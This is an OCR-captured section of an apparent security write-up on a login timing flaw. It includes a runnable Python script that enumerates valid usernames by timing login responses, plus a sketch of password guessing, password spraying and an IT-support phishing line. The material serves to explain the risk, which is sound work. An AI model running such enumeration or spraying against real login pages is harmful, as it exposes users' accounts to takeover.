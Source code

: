 ## 2. ⏱️ Timing Attack - The Username Harvester

### What Could Actually Happen?

#### Scenario 1: Automated Username Enumeration
```python
import time
import requests
from concurrent.futures import ThreadPoolExecutor

# Attacker's script
def check_username(username):
    start = time.perf_counter()
    response = requests.post('http://gvisit.com/journal_login', 
                           data={'username': username, 'password': 'wrong'})
    elapsed = time.perf_counter() - start
    return username, elapsed

# Common usernames to try
usernames = ['admin', 'alex', 'john', 'sarah', 'mike', 'test', 'user1', 'demo']

with ThreadPoolExecutor(max_workers=10) as executor:
    results = list(executor.map(check_username, usernames))

# Find valid usernames (slower response = valid user)
valid_users = []
for username, timing in results:
    if timing > 0.1:  # Threshold based on testing
        valid_users.append(username)
        print(f"Found valid user: {username} (took {timing:.3f}s)")
```
**Result**: Attacker gets list of all valid usernames in seconds!

#### Scenario 2: Targeted Attack Preparation
```python
# Now attacker knows valid users, they can:
valid_users = ['alex', 'sarah', 'mike']

# 1. Try common passwords only on valid accounts
common_passwords = ['password123', '123456', 'qwerty', 'letmein']
for user in valid_users:
    for password in common_passwords:
        # Much more efficient than blind guessing
        attempt_login(user, password)

# 2. Social engineering
# "Hi Sarah, I'm from IT support. We noticed unusual activity on your account..."

# 3. Password spraying (avoid lockouts)
# Try one password across all users, wait, repeat
```
